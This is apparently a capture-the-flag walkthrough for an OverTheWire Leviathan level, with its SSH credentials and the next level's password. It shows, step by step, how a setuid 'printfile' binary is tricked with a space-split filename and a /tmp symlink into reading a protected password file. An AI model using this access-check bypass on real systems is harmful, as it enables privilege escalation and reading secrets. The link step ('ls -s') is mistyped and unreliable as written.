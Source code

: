 Level #3 find the password for leviathan3 user

- Server: leviathan.labs.overthewire.org
- User: leviathan2
- Password: mEh5PNl10e

ssh leviathan2@leviathan.labs.overthewire.org -p 2223

//once in the home dir look at the dir contents
ls -la

//there is one executable file so try execute it
./printfile

//you will be prompted with how to use it
./printfile /etc/leviathan_pass/leviathan3

//this is not allowed, but why?
//tested and the printfile could print the files within the home directory
//read somewhere to take advantage of unintended input
//using ltrace compared the flow of function execution between a printed file and one that failed to print
ltrace ./printfile .bash_logout
ltrace ./printfile /etc/leviathan_pass/leviathan3

//comparing the function calls, for .bash_logout the access function is called and passed then in another function /bin/cat is called and prints
//for /etc/leviathan_pass/leviathan3 access function catches the lack of permisions and program is exited
//think of a way to bypass the access function since this is the only that checks you have permissions over the file passed for print

//read somewhere to test how the executable behaves for inputs separated by spaces
//after testing realized that the access function checks for permissions of the file by it's full space separated name
//but the printing function only takes the first part of the file name before the space
//so I tought having the printfile executable check the access of a file named "test file" while actually printing the contents of "test" file
//but first I needed a way for this test file that is going to be printed to be actually /etc/leviathan_pass/leviathan3
//so creating a soft link is necessary
cd /tmp
mkdir escalation
cd escalation
touch "test file"
ls -s /etc/leviathan_pass/leviathan3 test
chmod 777 .
cd ~
./printfile "test file"

leviathan3 user password: Q0G8j4sakn 
